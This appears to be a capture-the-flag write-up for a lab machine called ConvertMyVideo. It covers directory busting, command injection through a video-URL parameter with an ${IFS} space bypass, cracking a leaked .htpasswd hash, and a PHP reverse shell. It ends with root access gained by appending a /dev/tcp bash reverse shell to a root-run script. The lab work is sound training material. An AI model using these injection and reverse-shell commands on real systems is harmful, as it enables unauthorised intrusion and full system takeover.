 # ConvertMyVideo

![machine=01]()


### Recon

Lets kick off our enumeration stage with `nmap`:

![nmap-result-02]()

Here are the results:	

Lets go take a look at this Apache server.


## Apache 

Lets navigate to the site:

![site-03]()

Lets open Burp, and capture a request for some factitious youtube video ID.
We get following error message from the server:

![burp-04]()

Trying to send a legitamte youtube video ID stalls the server for a copule of minutes then 
returns nothing. So while waiting i decided to try directory busting. 


### Directory Busting

I used `ffuf`:

`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.
3-medium.txt:FUZZ -u http://10.10.79.56/FUZZ`

With it came some itersting results: 

![ffuf-res-05]()


Visiting this URL prompts us for credetials: 

![pass-prompt-06]()

It looks like a basic authintication scheme.

![burp-pass-07]()

Yes is it is.  HTTP Basic authentication is the simplest technique for 
enforcing access controls to web resources because it doesnâ€™t require cookies, session 
identifiers, or login pages; rather, HTTP Basic authentication uses standard fields in the 
HTTP header, obviating the need for handshakes.

This matters because, it means the web server is using `.htaccess` and `.htpasswd` files 
to authinticate users. `.htpasswd` is of special interest to us since it hold user credetials.  
If we can find this file on the server we have our entry point. 


### Command Injection

Lets start playing around with the HTTP headers to try and provoke server errors.
What if instead of going to youtube, we point the server to its self? 

![server-err-08]()


Okay, the backend is using `youtube-dl`. It seems like whatever we pass to the `yt_url` 
parameter in our `POST` request, is passed to `youtube-dl` . 
  
`youtube-dl` is an open source project, you can find [here](https://github.com/ytdl-org/youtube-dl) 

Based on its github, the syntax is as follows: 
`youtube-dl [OPTIONS] URL`

In essense, whatever we supply to the `yt_url` parameter becomes the <URL> part above.
Lets try to break out of the `youtube-dl` command. 

To do that, im thinking of a few things, we can either try to send a cariage return sequance 
(works sometimes, not in this case). 

We can try Openining a subshell with backticks \`\` or $() to give priority to whatever is inside. 
(doesnt work in this case either). 

Or, We could also try to use `||` to execute two commands one after the other. 
This works:

![burp-ls-09]()

This is a command injection vulnerability, but we have one major issue, we cant uses spaces.
sending something like `||cat /etc/passwd` will break the execution. 

We have to use an espace sequance. After some experimentations ive found that `${IFS}` works:

![burp-esc-10]()

Now we can find the `.htpasswd` file with a simple search: `||find${IPS}-name${IFS}.htpasswd`.
This shows that the file is at `admin/.htpasswd`, lets cat it out: 

![creds-11]()


### The Admin Panel

The stored credetials are: `itsmeadmin : $apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/`, 
its an arp1 hash. Can we crack it with `hashcat`? 

`hashcat --help | grep -i arp1`

![hashcat-help-12]()


Lets crack it: 
`hashcat -m 1600 '$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/' /usr/share/wordlists/rockyou.txt`

![pass-13]()

The credtials to the admin panel are `itsmeadmin : jessie`  Lets log in: 
	
![admin-panel-14]()

If we take a look at the source code for the page: 

![admin-source-15]()

It looks for a "c" parameter in the URL, we can use our previous command injection to try
and find the `index.php` file that runs in the backend for this page:

![index-pos-16]()

Lets cat it out: 

![index-17]()

The backend checks if any argument was given to the "c" parameter in the URL.
If so, it execute the `system()` function to run whatever was given to it on the OS. 
 
This is another command injection vulnerability: 

![pwned-18]()

Lets send a reverse shell.


### Gaining Access

I like using [pentestmonkey's PHP reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). 

Change the port and ip to your situation: 

![pentest-19]()

Start a python server `python3 -m http.server 8888`

And download the file to the target: 

![upload-20]()

Start the listener with `nc -lnvp 4242`

Navigate to the file location: 

![navigate-21]()

It stalls, thats a great sign, lets check the listener: 

![shell-22]()

Lets move to privilege escalation!


## Privilege Escalation

After looking around a bit, ive found nothing meaningful to exploit. 
Lets fire off `pspy64`:

![priv-esc-23]()

We have UID 0 running a script from out user's home directory, Lets check the permissions: 

![perms-24]()

We can write to the file, Lets append a reverse shell to it:
`echo '/bin/bash -l > /dev/tcp/10.18.22.182/4242 0<&1 2>&1' >> clean.sh`

A few seconds after setting up the listener we get a connection:

![root-25]() 